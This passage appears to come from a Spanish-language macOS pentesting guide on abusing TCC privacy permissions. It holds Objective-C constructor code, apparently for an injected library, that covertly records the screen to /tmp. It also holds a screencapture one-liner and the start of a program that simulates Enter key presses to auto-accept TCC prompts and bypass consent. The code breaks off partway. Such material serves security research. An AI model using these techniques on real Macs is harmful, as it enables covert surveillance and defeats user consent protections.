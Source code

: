 ```objectivec
void myconstructor(int argc, const char **argv)
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt
AVCaptureSession *captureSession = [[AVCaptureSession alloc] init];
AVCaptureScreenInput *screenInput = [[AVCaptureScreenInput alloc] initWithDisplayID:CGMainDisplayID()];
if ([captureSession canAddInput:screenInput]) {
[captureSession addInput:screenInput];
}

AVCaptureMovieFileOutput *fileOutput = [[AVCaptureMovieFileOutput alloc] init];
if ([captureSession canAddOutput:fileOutput]) {
[captureSession addOutput:fileOutput];
}

[captureSession startRunning];

MyRecordingDelegate *delegate = [[MyRecordingDelegate alloc] init];
[fileOutput startRecordingToOutputFileURL:[NSURL fileURLWithPath:@"/tmp/screen.mov"] recordingDelegate:delegate];

// Run the loop for 5 seconds to capture
dispatch_after(dispatch_time(DISPATCH_TIME_NOW, (int64_t)(5 * NSEC_PER_SEC)), dispatch_get_main_queue(), ^{
[fileOutput stopRecording];
});

CFRunLoopRun();
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt
}
```
{% endtab %}

{% tab title="Shell" %}
Graba la pantalla principal durante 5s
{% endtab %}
```bash
screencapture -V 5 /tmp/screen.mov
```
{% endtab %}
{% endtabs %}

### Accesibilidad

* **Entitlement**: Ninguno
* **TCC**: `kTCCServiceAccessibility`

Utiliza el privilegio TCC para aceptar el control de Finder presionando enter y así evadir TCC

{% tabs %}
{% tab title="Aceptar TCC" %}
```objectivec
#import <Foundation/Foundation.h>
#import <ApplicationServices/ApplicationServices.h>
#import <OSAKit/OSAKit.h>

// clang -framework Foundation -framework ApplicationServices -framework OSAKit -o ParallelScript ParallelScript.m
// TODO: Improve to monitor the foreground app and press enter when TCC appears

void SimulateKeyPress(CGKeyCode keyCode) {
CGEventRef keyDownEvent = CGEventCreateKeyboardEvent(NULL, keyCode, true);
CGEventRef keyUpEvent = CGEventCreateKeyboardEvent(NULL, keyCode, false);
CGEventPost(kCGHIDEventTap, keyDownEvent);
CGEventPost(kCGHIDEventTap, keyUpEvent);
if (keyDownEvent) CFRelease(keyDownEvent);
```